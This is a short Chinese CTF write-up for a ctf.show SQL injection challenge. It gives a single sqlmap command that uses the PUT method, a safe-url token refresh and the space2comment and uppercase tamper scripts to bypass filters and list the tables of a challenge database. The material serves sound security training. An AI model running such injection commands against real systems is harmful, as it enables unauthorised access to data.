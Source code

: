 # 知识点
在使用一个uppercase.py大写绕过（其实sqlmap的select默认大写，原来的payload也完全可以）
# 思路
```bash
python sqlmap.py -u "http://6f26b2b2-7b83-431e-aba9-122bd6d08b17.challenge.ctf.show/api/index.php" --method="PUT" --data="id=1" --referer=ctf.show --headers="Content-Type: text/plain" --cookie="PHPSESSID=1vrv4fg7q4uid8i1lhma043h20" --safe-url="http://6f26b2b2-7b83-431e-aba9-122bd6d08b17.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=space2comment.py,uppercase.py -D ctfshow_web --tables
```
![image.png](./images/20231017_2351564074.png)

